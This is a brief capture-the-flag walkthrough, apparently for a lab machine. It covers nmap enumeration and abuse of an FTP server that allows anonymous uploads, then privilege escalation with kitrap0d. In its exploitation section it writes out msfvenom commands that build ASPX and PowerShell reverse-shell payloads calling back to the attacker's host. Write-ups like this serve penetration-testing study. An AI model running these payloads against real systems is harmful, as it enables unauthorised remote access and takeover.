


# Enumeration

- we use nmap to enumerate `nmap -p- -A -T4 10.10.10.5`
- We found anonymous access in ftp
- We found a website hosted on the IP (poor hygiene) 
- using *dirbuster* to bust the directories: We found nothing : (
### FTP
We can anonymously login into ftp and upload files:**
We can exploit this and use to our advantage
# Exploitation
- We can use this cheatsheat: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom and use the ASP/x payload.
- To output the ex.aspx file with the payload: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.9 LPORT=4444 -f aspx > ex.aspx `
- we use `msfconsole` to listen on port 4444
- upload to ftp by binary preferably. 
- WE GET A METERPRETER SHELL!!!!
	-
- we can als0 use `msfvenom -p windows/powershell/powershell_reverse_tcp LHOST=10.10.16.9 ` to gain access without metasploit.
- We can use post exploit called suggester: 
- Post exploitation using kitrap0d for privilege escalation we got admin access